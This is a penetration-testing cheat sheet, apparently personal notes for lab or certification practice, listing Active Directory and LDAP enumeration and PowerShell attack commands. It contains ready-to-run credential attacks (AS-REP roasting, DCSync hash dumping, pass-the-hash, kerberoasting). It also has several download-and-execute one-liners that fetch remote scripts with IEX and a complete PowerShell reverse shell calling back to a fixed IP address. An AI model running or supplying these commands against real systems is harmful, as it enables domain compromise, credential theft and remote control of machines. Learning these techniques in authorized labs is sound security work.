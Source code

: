### Active Directory & LDAP

#### Enum

```
nmap -n -sV --script "ldap* and not brute" [IP_ADDR]
ldapsearch -H ldap://[IP_ADDR] -x -b "dc=[DC],dc=[DC]"
ldapsearch -H ldap://[IP_ADDR] -x -b '' -s base
windapsearch.py -d [DOMAIN] --dc-ip [IP_ADDR] -U    # -U to enumerate all AD users; -G for AD group enumerate
GetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -request 		# ASRep Roasting
secretsdump.py htb.local/svc_user@10.10.10.161 -just-dc 	# dcsync attack, dump hashes
psexec.py htb.local/administrator@10.10.10.161 -hashes [ntlm:hash]	# login with hashes
GetUserSPNs.py active.htb/[USER]:[PASSWORD] -dc-ip [IP_ADDR] -request

----------Info----------
MS14-068 (For DC older than Windows Server 2012 R2)		# Ref: https://wizard32.net/blog/knock-and-pass-kerberos-exploitation.html
Database of AD stored on C:\Windows\NTNDS\ntds.dit of DC
```

Ref: https://book.hacktricks.xyz/pentesting/pentesting-ldap

#### PowerShell

```powershell
Import-Module [filename].ps1
C:\Users\[username]\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt   # check powershell history
IEX ( IWR http://[IP_ADDR]/[PATH] -UseBasicParsing)   # equil linux wget http://[IP_ADDR]/[PATH] to upload file to the server
iwr http://[IP_ADDR]/[PATH] -OutFile [FILE]
IEX(New-Object Net.Webclient).downloadString('http://[IP_ADDR]/[PATH]')
Get-ADDomain | select DNSRoot,NetBIOSName,DomainSID   # retrieve SID
nltest /domain_trusts   # show inbound/outbound trust
Get-ADUser -Filter * | select SamAccountName    # list users(name ending with $ indicate trust keys being stored)
Get-ADObject -LDAPFilter "objectClass=User" -Properties SamAccountName | select SamAccountName    # to retrieve user and computer accounts(ending with $)
Get-ADObject -ldapfilter "(&(isDeleted=TRUE))" -IncludeDeletedObjects -Properties *		# retrieve item in recycle bin
Set-ExecutionPolicy Unrestricted
powershell "iex(new-object net.webclient).downloadString('http://192.168.119.218/Sherlock.ps1');Find-AllVulns"
klist   # list the cached Kerberos tickets

----------Service Account Attack------------
.\enumSPN.ps1
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken-ArgumentList '[serviceprincipalname]'
Rubeus.exe kerberoast /tgtdeleg /user:[samaccountname]
# Crack with hashcat
---------------Reverse Shell----------------
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

--------------Scheduled Tasks---------------
$pw = ConvertTo-SecureString "[PASSWORD]" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("[USERNAME]". $pw)
```